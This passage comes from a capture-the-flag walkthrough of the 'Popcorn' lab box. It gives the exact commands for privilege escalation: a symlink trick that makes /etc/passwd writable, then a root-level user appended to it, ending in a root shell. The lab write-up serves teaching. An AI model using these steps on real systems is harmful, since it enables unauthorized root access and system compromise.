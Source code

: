 ```

www-data@popcorn:~$ rm -rf .cache/
www-data@popcorn:/var/www$ ln -s /etc/passwd .cache
www-data@popcorn:/var/www$ ls -la .cache 
lrwxrwxrwx 1 www-data www-data 11 Jun 21 22:04 .cache -> /etc/passwd

```

Now I’ll log in again with SSH, and then `/etc/passwd` is owned by `www-data`:

```

www-data@popcorn:/var/www$ ls -l /etc/passwd
-rw-r--r-- 1 www-data www-data 1031 Mar 17  2017 /etc/passwd

```

#### Add Root Users

With write access, I’ll just add a root user. First, I need a password hash:

```

www-data@popcorn:/var/www$ openssl passwd -1 0xdf
$1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1

```

Now I’ll add a user to `/etc/passwd`:

```

www-data@popcorn:/var/www$ echo 'oxdf:$1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1:0:0:pwned:/root:/bin/bash' >> /etc/passwd  

```

The user is oxdf, the password is the hash of `0xdf`, the user and group ids are 0 for root, the description is pwned, the home directory is `/root`, and the shell is `/bin/bash`.

#### Shell

Now I can just `su` to oxdf to get a root shell:

```

www-data@popcorn:/var/www$ su - oxdf
Password: 
root@popcorn:~# id
uid=0(root) gid=0(root) groups=0(root)

```

And grab `root.txt`:

```

root@popcorn:~# cat root.txt
f1223310************************

```

